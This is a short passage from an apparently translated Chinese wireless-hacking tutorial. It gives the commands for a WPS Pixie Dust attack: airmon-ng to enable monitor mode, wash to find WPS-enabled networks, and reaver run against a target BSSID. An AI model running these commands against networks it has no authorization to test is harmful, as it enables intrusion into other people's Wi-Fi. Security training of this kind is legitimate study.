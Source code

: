 我们需要启用 WPS 的网络。否则，它将无法工作。

# 如何做...

要了解 pixie dust，请按照以下步骤：

1.  我们使用以下命令在监视器模式下启动我们的接口：

```
 airmon-ng start wlan0
```

1.  然后，我们需要找到启用 WPS 的网络；我们可以使用以下命令来做到这一点：

```
 wash -i <monitor mode interface> -C
```

以下截图显示了上述命令的示例：

![](img/004235d3-a7ac-43c5-a134-a8298c963cba.png)

1.  现在我们使用以下命令运行`reaver`：

```
 reaver -i wlan0mon -b [BSSID] -vv -S -c [AP channel]
```

以下截图显示了上述命令的示例：

![](img/9ba9b27a-ac24-44aa-a6ee-271da1d02b62.png)

